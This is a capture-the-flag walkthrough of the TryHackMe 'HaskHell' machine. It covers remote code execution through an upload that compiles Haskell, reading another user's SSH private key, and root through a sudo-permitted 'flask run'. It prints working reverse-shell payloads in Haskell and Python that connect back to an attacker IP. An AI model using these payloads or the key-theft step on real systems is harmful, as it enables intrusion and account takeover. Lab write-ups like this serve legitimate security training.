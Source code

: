 # HaskHell

---

Platform: [Tryhackme](https://tryhackme.com/room/haskhell)

Difficulty: Medium

Initial Access: RCE via Insecure file upload

Privilege Escalation: Misconfigured sudo privileges.

---

Nmap Scan:

```bash
┌──(ghost㉿kali)-[~/tryhackme/haskhell]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.50.43 -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 00:49 EDT
Nmap scan report for 10.201.50.43
Host is up (0.25s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Ports | Methodology |
| --- | --- |
| 22 (SSH) | Potentially for later use. |
| 5001 (HTTP) | Gunicorn 19.7.1, maybe vulnerable version, but first have to look at what is running on this http server.  |

---

### Initial Enumeration

On port 5001, there was some type of static website hosted.

![image.png](image.png)

`/homework1` endpoint:

![image.png](image%201.png)

So, reading above contents of the website shows haskell is going to be taught in this semester and professor had given some homework to students. They can submit it through an endpoint `/upload` , but it’s not found on the server, maybe fuzzing directory will reveal some other endpoints. Main points or hints to note from here:

<aside>
💡

Only Haskell files are accepted for uploads. Learned that one the hard way last semester...

Your file will be compiled and ran and all output will be piped to a file under the uploads directory.

</aside>

![image.png](image%202.png)

Directory fuzzing revealed an endpoint `/submit` , and here we can submit our homework files.

![image.png](image%203.png)

![image.png](image%204.png)

---

### Initial Access

So, now the question is what is that haskell? (Searched on google about it)

Haskell is a modern, standard, purely functional programming and non-strict language. It is Specially designed to handle a wide range of applications, from numerical through to symbolic. It has an expressive syntax and very rich inbuilt architecture.

Let’s code a simple print command in haskell:

```bash
main = putStrLn "Hello, Haskell!"
```

Save this code in a file named test.hs and let’s try to upload it to the server.

![image.png](image%205.png)

And the server compiles our code, run it and also save it to `/uploads/<filename>` location.

![image.png](image%206.png)

Searched on google more about how to execute system commands using haskell code and found the method.

Write reverse shell code in haskell and saved it to a file named haskell.hs:

```bash
import System.Process

main = do
callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f"
```

Uploaded that file on the submit page.

![image.png](image%207.png)

It automatically compiles that code and run it , which triggered reverse shell on our attacker machine.

![image.png](image%208.png)

---

### Shell as prof

Enumerating machine with flask user’s account revealed 2 more user’s account that were present in that machine: `haskell` and `prof` 

User flask can also read directories of both the users.

![image.png](image%209.png)

Lookind inside prof user’s directory revealed user flag.

![image.png](image%2010.png)

Also able to read the `id_rsa` file(private rsa key) of user prof inside `/home/prof/.ssh`

![image.png](image%2011.png)

Copied it our attacker machine, gave it suitable permission and logged in to user prof’s account via ssh.

![image.png](image%2012.png)

---

### Shell as root

Checking sudo privileges of user prof revealed user prof can run `/usr/bin/flask run` as root.

![image.png](image%2013.png)

Tried running that command with sudo privileges and throws some error:

![image.png](image%2014.png)

Searching about this error on google, showed this error means Flask doesn’t know which Python file contains your application instance. Which means let’s say your flask application file is `app.py` then we have set it to environment variable like these: `export FLASK_APP=app.py` .

Which means we can make any python file which contains reverse shell code in python and can set it to environment variables like above and running that flask run with sudo privileges can provide us root shell.

created a python file named `rev.py` and wrote python reverse shell code inside it.

```python
import os,pty,socket;s=socket.socket();s.connect(("10.17.87.131",4446));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

![image.png](image%2015.png)

Set it to environment variable and run it.

```bash
prof@haskhell:~$ export FLASK_APP=rev.py
prof@haskhell:~$ sudo /usr/bin/flask run
```

On our attacker machine, reverse shell got triggered as root on the target machine.

![image.png](image%2016.png)

Grabbed the root flag

![image.png](image%2017.png)

---

That’s it for this machine.✅